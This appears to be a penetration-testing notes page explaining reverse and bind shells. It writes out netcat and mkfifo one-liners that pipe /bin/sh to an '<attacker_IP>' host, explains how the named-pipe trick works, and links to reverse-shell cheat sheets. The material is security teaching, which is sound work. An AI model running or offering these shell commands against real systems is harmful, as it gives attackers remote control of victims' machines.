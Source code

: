 ```yaml
---
description: Reverse/bind shell
---
```


# Gaining shell

### Reverse shell

Given a scenario where an attacker has gained remote code execution privileges on a victim machine, a reverse/bind shell can be established to allow the attacker to gain a remote shell session on the victim machine.

A reverse shell works by establishing a connection from the target machine with shell execution, to a listening port on the attacker's machine. This allows any commands sent from the attacker's machine to be executed by the shell on the victim's machine, allowing a remote shell environment.

A bind shell works in an opposite way to a reverse shell, such that the connection is established from attacker machine to the target machine on a specific listening port (enabled by the attacker).&#x20;

#### Basic command on attacker machine:

```bash
# Listen on a TCP port
$ nc -lp [port]
```

#### Command to be executed on the victim's machine:

```bash
# option 1
$ nc <attacker_IP> [port] -e /bin/sh


# option 2: -e flag might not be present for some netcat versions
$ rm /tmp/fifo; mkfifo /tmp/fifo; cat /tmp/fifo | /bin/sh -i 2>&1 | nc <attacker_IP> [port] > /tmp/fifo

```

### Bind shell

#### Basic command on attacker machine:

```bash
# Listen on a TCP port
$ nc <victim_IP> <port>
```

#### Command to be executed on the victim's machine:

```bash
# option 1
$ nc -lp [port] -e /bin/sh

# option 2: with $ symbol on attacker machine
$ rm /tmp/fifo; mkfifo /tmp/fifo; cat /tmp/fifo | /bin/sh -i 2>&1 | nc -lp [port] > /tmp/fifo

```



### Explanation for commands use in option 2 of reverse/bind shell

_**What is a fifo (named pipe) file?**_

> ‘mkfifo’ is primarily used when two processes need to communicate with each other but do not have a parent-child relationship. A FIFO special file is an extension of pipes, which offers a pathway for data between two processes. The FIFO special file can be opened by multiple processes for reading and writing. It is especially useful in scenarios where data streaming is necessary.

{% embed url="https://hopeness.medium.com/master-the-linux-mkfifo-command-a-comprehensive-guide-7e64ac926228" %}
mkfifo command
{% endembed %}

1. `rm /tmp/fifo`: Remove the _fifo_ (named pipe) file if it already exists
2. `mkfifo /tmp/fifo:` Create a _fifo_ file at the location `/tmp/fifo` using the `mkfifo` command
3. `cat /tmp/fifo`: Retrieve content of the created _fifo_ file
4. `/bin/sh-i 2>&1:`  Simply executes the current shell, with the `-i` flag for interactive shell mode, and `2>&1` which redirects standard error to standard output, combining both output streams
5. `nc -lp [port] > /tmp/fifo`: Runs the netcat command and sends the output to `/tmp/fifo`.&#x20;

_**Overview**_

These series of commands essentially continuously waits for an input from the attacker machine, before executing it with the current shell, before sending back as input through the established _netcat_ connection:

```bash
cat /tmp/fifo | /bin/sh -i 2>&1 | nc ... > /tmp/fifo
```

a) Attacker sends remote command, which is directed to (`>`) `/tmp/fifo`

b) When the value of `/tmp/fifo`changes, the `cat` command would retrieve the new value and pipe it as input to the `/bin/sh -i 2>&1` command

c) The output from the executed shell command would be piped back as input through the _netcat_ connection to be viewed on the attacker machine



{% embed url="https://book.hacktricks.xyz/generic-methodologies-and-resources/reverse-shells/linux" %}

{% embed url="https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#powershell" %}

{% embed url="https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet" %}

